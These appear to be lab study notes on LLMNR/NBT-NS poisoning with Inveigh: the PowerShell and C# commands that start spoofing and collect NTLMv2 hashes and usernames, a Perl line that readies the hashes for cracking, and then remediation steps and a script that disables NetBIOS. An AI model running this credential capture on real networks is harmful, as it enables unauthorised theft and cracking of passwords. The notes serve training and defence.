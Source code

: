 Get the module imported in.

```powershell
PS C:\htb> Import-Module .\Inveigh.ps1
```

LLMNR and NBNS spoofing on

```powershell
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

**C# Inveigh - InveighZero**

- Have to compile the executable before being able to run the .exe

```powershell
PS C:\htb> .\Inveigh.exe
```

- When it runs, it shows the options enabled/disabled by default:
    - The options with a `[+]` are default and enabled by default and the ones with a `[ ]` before them are disabled
- Hitting the `Esc` key while its running brings us to the interactive console.
    - Type `HELP` to see the options
    - Type `GET NTLMV2UNIQUE` to get the unique hashes for each unique host
    - `GET NTLMV2USERNAMES` shows the unique usernames
    - `perl -p -i -e 's/\R//g;' svc_qualysCapturedHash.txt` is a bit of code to remove stray new line characters, allowing tools like hashcat or john to parse them.
        - `When capturing NTLM hashes (e.g., from tools like Inveigh), the output might contain unwanted line breaks (especially if copied from a Windows system to Linux). Some password-cracking tools (like hashcat or john) expect hashes to be in a single line or a specific format. This Perl command ensures the file has no stray \r or \n characters, making it easier to parse.`

## Remediation

- MITRE ATT&CK [ID: T1557.001](https://attack.mitre.org/techniques/T1557/001), `Adversary-in-the-Middle: LLMNR/NBT-NS Poisoning and SMB Relay`.
- Disabling LLMNR and NBT-NS works, but is a significant change that has to be tested before rollout.
- LLMNR can be disabled in Group Policy:
    - Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution.”
- NBT-NS has to be disabled locally on each host
    - Open `Network and Sharing Center` under `Control Panel`, clicking on `Change adapter settings`, right-clicking on the adapter to view its properties, selecting `Internet Protocol Version 4 (TCP/IPv4)`, and clicking the `Properties` button, then clicking on `Advanced` and selecting the `WINS` tab and finally selecting `Disable NetBIOS over TCP/IP`.
    - We can also create a PowerShell script under Computer Configuration --> Windows Settings --> Script (Startup/Shutdown) --> Startup
        
        ```powershell
        $regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
        Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}
        ```
        